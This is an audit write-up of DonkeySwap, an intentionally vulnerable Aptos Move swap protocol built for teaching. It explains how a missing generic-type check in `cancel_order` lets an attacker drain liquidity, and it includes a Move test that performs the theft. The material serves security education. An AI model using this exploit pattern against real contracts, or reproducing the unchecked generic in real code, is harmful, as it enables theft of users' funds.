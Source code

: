 This is a shadow audit of DonkeySwap which was created by the Zellic team.

You can find the report for zellic audit : [link](https://www.zellic.io/blog/top-10-aptos-move-bugs/)

source code with tests : [link](https://github.com/Zellic/DonkeySwap)



The Move language is designed to make it difficult to write bugs and does its job relatively well. There are certain bug classes that it completely eliminates. But as is the case with everything, it’s not impossible — and smart contract bugs almost always have the potential for negative financial impact.

## DonkeySwap
An intentionally vulnerable, Coin-swapping protocol for Aptos.

It's basically an AMM that uses an oracle for pricing, and LP coins minted represent the USD value of liquidity deposits/withdrawals. Featuring support for limit swap orders!

The purpose of this repository is to demonstrate common vulnerabilities we see in Aptos Move protocols.

### 1. Missing Generic Types checking
Generic types are another form of user input that must be checked for validity. When using generics types, we need to check 
   - the type is valid/whitelisted type
   - the type is expected type.

Function `cancel_order` Does not check BaseCoinType Generic Type.

#### `Description:`
The `cancel_order` function does not assert the input `BaseCoinType` generic type matches the `base_type` TypeInfo 

#### `Impact:`
An attacker could pottentially drain liquidity from the AMM by placing swap order and cancelling the order - passing incorrect coin type.

```rust
##[test(admin=@donkeyswap, user=@0x2222)]
fun WHEN_exploit_lack_of_type_checking(admin: &signer, user: &signer) acquires CoinCapability {
    let (my_usdc, order_id) = setup_with_limit_swap(admin, user, 1000000000000000);

    // let's say the admin deposits some ZEL

    mint<ZEL>(my_usdc, address_of(admin));
    let _admin_order_id = market::limit_swap<ZEL, USDC>(admin, my_usdc, 1000000000000000);

    // now, let's try stealing from the admin

    assert!(coin::balance<USDC>(address_of(user)) == 0, ERR_UNEXPECTED_BALANCE);
    assert!(coin::balance<ZEL>(address_of(user)) == 0, ERR_UNEXPECTED_BALANCE);

    market::cancel_order<ZEL>(user, order_id); // ZEL is not the right coin type!

    assert!(coin::balance<USDC>(address_of(user)) == 0, ERR_UNEXPECTED_BALANCE);
    assert!(coin::balance<ZEL>(address_of(user)) == my_usdc, ERR_UNEXPECTED_BALANCE); // received ZEL?
}
```
